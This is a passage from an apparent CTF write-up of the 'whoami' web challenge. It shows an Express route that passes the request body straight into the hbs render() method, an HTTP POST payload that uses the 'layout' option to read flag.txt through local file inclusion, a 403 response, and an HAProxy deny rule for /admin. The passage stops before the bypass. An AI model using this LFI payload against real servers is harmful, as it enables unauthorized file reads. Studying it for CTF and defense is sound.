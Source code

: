 ```plaintext
FLAG : GLUG{9orO7yp3_po11u7iOn_f1nd_1oc4tiOn}
```

---
## (Web) whoami [470 pts]

The whoami is a challenge to solve using the interesting logic that occurs in the render() method of the hbs template engine.

```javascript
router.post('/admin', function(req, res, next) {
        var profile = req.body.profile
        res.render('index', profile)
});
```
The vulnerability occurs in the code above. The reason is the wrong way to pass the second argument of render(). If an argument is passed as above, LFI is generated. More information can be found [here](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/). Try the analysis yourself. I knew this about 10 months ago. So as soon as I saw the code, I knew immediately.

```plaintext
POST /admin HTTP/1.1
Host: web.chall.nitdgplug.org:80
Content-Length: 62
Content-Type: application/json
Connection: close

{
  "profile": {
    "layout": "./../views/flag.txt"
  }
}

HTTP/1.1 403 Forbidden
content-length: 93
cache-control: no-cache
content-type: text/html
connection: close

<html><body><h1>403 Forbidden</h1>
Request forbidden by administrative rules.
</body></html>
```
So I tried to get the flag using an interesting issue, but a 405 header was returned.

```plaintext
global
    daemon
    maxconn 256

defaults
    mode http
    timeout connect 5000ms
    timeout client 50000ms
    timeout server 50000ms

frontend http-in
    bind *:80
    default_backend servers
    http-request deny if { path_beg /admin }

backend servers
    option http-keep-alive
    option forwardfor
```
